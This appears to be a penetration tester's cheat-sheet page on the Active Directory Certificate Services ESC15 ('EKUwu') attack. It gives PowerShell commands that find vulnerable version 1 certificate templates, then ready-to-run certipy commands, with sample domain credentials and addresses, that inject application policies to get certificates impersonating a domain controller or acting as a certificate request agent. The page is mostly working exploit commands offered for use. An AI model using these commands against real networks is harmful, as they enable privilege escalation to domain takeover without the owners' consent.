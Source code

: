 ```yaml
---
description: Inject Application Policies into Version 1 Certificate Templates
---
```


# ESC15 (EKUwu)

- [https://trustedsec.com/blog/ekuwu-not-just-another-ad-cs-esc](https://trustedsec.com/blog/ekuwu-not-just-another-ad-cs-esc)




## Enumerate

Get enabled templates:

```
PS > $enabledTemplates = Get-ADObject -LDAPFilter "(&(objectClass=pKIEnrollmentService))" -SearchBase "CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,$((Get-ADRootDSE).rootDomainNamingContext)" -Properties certificateTemplates | select -ExpandProperty certificateTemplates
```

Get v1 templates with `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` that are enabled:

```
PS > Get-ADObject -Filter 'objectClass -eq "pKICertificateTemplate"' -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,$((Get-ADRootDSE).rootDomainNamingContext)" -Property name,msPKI-Template-Schema-Version,msPKI-Certificate-Name-Flag | ? {$_.'msPKI-Template-Schema-Version' -eq 1 -and ($_.'msPKI-Certificate-Name-Flag' -band 0x00000001)} | ? {$enabledTemplates -contains $_.name}
```




## Exploit



### ESC15 -> ESC1

Abusing **Client Authentication**:

```
$ proxychains4 certipy req -u snovvcrash@megacorp.local -p 'Passw0rd!' -ca CorpCA -target CA01.megacorp.local -target-ip 192.168.1.12 -template VulnTemplate --application-policies '1.3.6.1.5.5.7.3.2' -upn 'DC01$@megacorp.local' -sid <DC01_SID> -ns 192.168.1.11 -dc-ip 192.168.1.11 -dns-tcp
```



### ESC15 -> ESC3

Abusing **Certificate Request Agent**:

```
$ proxychains4 certipy req -u snovvcrash@megacorp.local -p 'Passw0rd!' -ca CorpCA -target CA01.megacorp.local -target-ip 192.168.1.12 -template VulnTemplate --application-policies '1.3.6.1.4.1.311.20.2.1' -ns 192.168.1.11 -dc-ip 192.168.1.11 -dns-tcp
$ proxychains4 certipy req -u snovvcrash@megacorp.local -p 'Passw0rd!' -pfx snovvcrash.pfx -ca CorpCA -target CA01.megacorp.local -target-ip 192.168.1.12 -template User -on-behalf-of 'MEGACORP\DC01$' -ns 192.168.1.11 -dc-ip 192.168.1.11 -dns-tcp
```
